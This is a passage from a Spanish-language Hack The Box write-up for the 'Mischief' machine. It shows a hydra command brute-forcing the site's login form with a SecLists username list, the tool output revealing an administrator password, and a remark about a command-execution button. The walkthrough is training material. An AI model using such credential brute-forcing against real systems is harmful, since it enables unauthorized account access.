 Podemos usar **hydra** para ver si alguna credencial es valida con usuarios de algún **.txt** de **seclists** y en otro archivo podemos poner las contraseñas que tenemos para ver si funciona 

```bash
❯ hydra mischief.htb -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P passwords.txt http-form-post "/login.php:user=^USER^&password=^PASS^:Sorry, those credentials do not match"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-27 15:01:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 34 login tries (l:17/p:2), ~3 tries per task
[DATA] attacking http-post-form://mischief.htb:80/login.php:user=^USER^&password=^PASS^:Sorry, those credentials do not match
[80][http-post-form] host: mischief.htb   login: administrator   password: trickeryanddeceit
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-27 15:01:53
```

Ahora sabiendo que el usuario **administrator** es correcto con esa credencial lo que podemos hacer ahora es conectarnos para poder así ver lo que hay dentro

![](/assets/images/htb-writeup-mischief/web12.png)

Ademas nos están diciendo que en su directorio personal tiene su contraseña en un archivo llamado **credentials** si le damos **Execute** vemos que se ejecuta el comando 

